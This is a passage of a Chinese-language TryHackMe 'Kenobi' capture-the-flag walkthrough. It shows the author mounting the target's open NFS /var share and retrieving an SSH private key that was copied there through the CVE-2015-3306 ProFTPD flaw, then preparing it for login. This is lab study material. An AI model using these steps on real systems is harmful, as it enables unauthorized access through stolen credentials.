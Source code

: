 ```!=
drwxrwsr-x  2 root mail  4096 Feb 27  2019 mail
drwxr-xr-x  2 root root  4096 Feb 27  2019 opt
lrwxrwxrwx  1 root root     4 Sep  4  2019 run -> /run
drwxr-xr-x  5 root root  4096 Aug  9 21:38 snap
drwxr-xr-x  5 root root  4096 Sep  4  2019 spool
drwxrwxrwt 10 root root  4096 Oct 22 14:09 tmp
drwxr-xr-x  3 root root  4096 Sep  4  2019 www

```

> ```bash
> sudo mount 10.201.110.192:/var /mnt/kenobiNFS
> ```
> - **NFS (Network File System)**: 網路文件系統,允許遠端目錄掛載到本地
> - 這個命令把目標機器的 `/var` 目錄掛載到你本機的 `/mnt/kenobiNFS`
> - 之前 nmap 掃描顯示 `/var *` 是共享的,`*` 表示任何人都可以掛載
> - 需要 root 權限是因為 mount 操作涉及系統級別的文件系統修改
> * 由於剛剛已經透過 CVE-2015-3306 漏洞，把 id_rsa 複製到 NFS 的 `/var/tmp` 目錄
> 因此可從掛載點 `/mnt/kenobiNFS/tmp/id_rsa` 取得私鑰
> * 使用完後記得 `sudo umount /mnt/kenobiNFS`

## 取得 shell
把剛剛複製的 id_rsa 搬到本地端
```!=
┌──(kali㉿kali)-[~/tryhackme/Kenobi]
└─$ cp /mnt/kenobiNFS/tmp/id_rsa .
                       
┌──(kali㉿kali)-[~/tryhackme/Kenobi]
└─$ ls                   
id_rsa  log.txt  memo
```

給予權限  
但不知道為什麼要給 600 權限
```!=
┌──(kali㉿kali)-[~/tryhackme/Kenobi]
└─$ ls -la id_rsa        
-rw-r--r-- 1 kali kali 1675 Oct 22 14:59 id_rsa

┌──(kali㉿kali)-[~/tryhackme/Kenobi]
└─$ chmod 600 id_rsa
                         
┌──(kali㉿kali)-[~/tryhackme/Kenobi]
└─$ ls -la id_rsa
-rw------- 1 kali kali 1675 Oct 22 14:59 id_rsa

```

> - **SSH 安全要求**: SSH 私鑰必須只有擁有者可讀寫,其他人完全無權限
> - `600` = 擁有者可讀寫(rw-),群組無權限(---),其他人無權限(---)
> - 如果權限太寬鬆,SSH 會拒絕使用該私鑰
